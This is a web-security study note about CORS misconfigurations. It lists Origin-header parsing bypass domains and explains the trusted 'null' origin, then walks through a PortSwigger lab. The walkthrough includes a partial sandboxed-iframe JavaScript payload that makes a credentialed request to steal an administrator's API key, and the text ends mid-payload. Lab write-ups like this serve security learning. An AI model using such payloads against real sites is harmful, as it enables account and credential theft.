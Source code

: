 


## Parsing Errors

Be sure to check for errors in `Origin` header parsing.

For example, suppose an application grants access to all domains ending in:

`normal-website.com`

Maybe try:

- hackersnormal-website.com
- normal-website.com.evil-user.net

Also check arbitrary subdomains:

- evil.normal-website.com

## Whilelisted NULL origin value

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

??? example "PortSwigger CORS lab 2: CORS vulnerability with trusted null origin"

	**Instructions**
	
	This website has an insecure CORS configuration in that it trusts the "null" origin.
	
	To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
	
	You can log in to your own account using the following credentials: `wiener:peter`
	
	**Exploit**
	
	The website shows an API key on the `accountDetails` page.
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801160740.png)
	
	Sending an arbitrary domain in the request Origin header does nothing
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801160842.png)
	
	However, sending `null` gets reflected in the response ACAO header.
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801160956.png)
	
	Since the null origin is reflected, we can use the following payload to snag the admin's API key.
	
	```
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
	  var req = new XMLHttpRequest();
	  req.onload = reqListener;
	  req.open('get','https://0adb00af04759e1980f703df00da0006.web-security-academy.net/accountDetails',true);
	  req.withCredentials = true;
	  req.send();
	